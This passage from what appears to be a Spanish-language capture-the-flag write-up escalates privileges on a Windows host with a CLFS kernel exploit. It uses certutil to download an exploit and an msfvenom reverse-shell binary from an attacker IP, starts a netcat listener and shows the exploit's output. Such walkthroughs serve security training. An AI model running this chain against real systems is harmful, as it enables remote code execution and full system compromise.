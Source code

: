 Nos `transferimos` el `exploit` a la `máquina víctima`

```
PS C:\Users\sam.emerson\Documents> certutil.exe -urlcache -split -f http://10.10.16.29/exploit.exe
```

Creamos un binario `shell.exe` para que nos mande una `reverse shell` a nuestro equipo

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=443 -f exe > shell.exe
```

Nos `transferimos` el archivo `shell.exe` a la máquina víctima

```
PS C:\Users\sam.emerson\Documents> certutil.exe -urlcache -split -f http://10.10.16.29/shell.exe
```

Mos ponemos en `escucha` con `netcat`

```
# rlwrap nc -nlvp 443 
```

`Ejecutamos` el `exploit` 

```
PS C:\Users\sam.emerson\Documents> .\exploit.exe 1208 "C:\Users\sam.emerson\Documents\Shell.exe"
.\exploit.exe 1208 "C:\Users\sam.emerson\Documents\Shell.exe"
Executing command: (null)
[+] Incorrect number of arguments!
[+] Usage: exploit.exe <Token Offset> <Flag> <Program to execute>
[+] Example: exploit.exe 1208 1 calc.exe>
PS C:\Users\sam.emerson\Documents> .\exploit.exe 1208 1 "C:\Users\sam.emerson\Documents\Shell.exe"
.\exploit.exe 1208 1 "C:\Users\sam.emerson\Documents\Shell.exe"
Executing command: C:\Users\sam.emerson\Documents\Shell.exe


ARGUMENTS
[+] TOKEN OFFSET 4b8
[+] FLAG 1


VIRTUAL ADDRESSES AND OFFSETS
[+] NtFsControlFile Address --> 00007FFCCDD84240
[+] pool NpAt VirtualAddress -->FFFFD380743FF000
[+] MY EPROCESSS FFFFBE0BB60BE1C0
[+] SYSTEM EPROCESSS FFFFBE0BB36FF040
[+] _ETHREAD ADDRESS FFFFBE0BB6896080
[+] PREVIOUS MODE ADDRESS FFFFBE0BB68962B2
[+] Offset ClfsEarlierLsn --------------------------> 0000000000013220
[+] Offset ClfsMgmtDeregisterManagedClient --------------------------> 000000000002BFB0
[+] Kernel ClfsEarlierLsn --------------------------> FFFFF80452C13220
[+] Kernel ClfsMgmtDeregisterManagedClient --------------------------> FFFFF80452C2BFB0
[+] Offset RtlClearBit --------------------------> 0000000000343010
[+] Offset PoFxProcessorNotification --------------------------> 00000000003DBD00
[+] Offset SeSetAccessStateGenericMapping --------------------------> 00000000009C87B0
[+] Kernel RtlClearBit --------------------------> FFFFF80450143010
[+] Kernel SeSetAccessStateGenericMapping --------------------------> FFFFF804507C87B0

[+] Kernel PoFxProcessorNotification --------------------------> FFFFF804501DBD00


PATHS
[+] Folder Public Path = C:\Users\Public
[+] Base log file name path= LOG:C:\Users\Public\71
[+] Base file path = C:\Users\Public\71.blf
[+] Container file name path = C:\Users\Public\.p_71
Last kernel CLFS address = FFFFD3806EF69000
```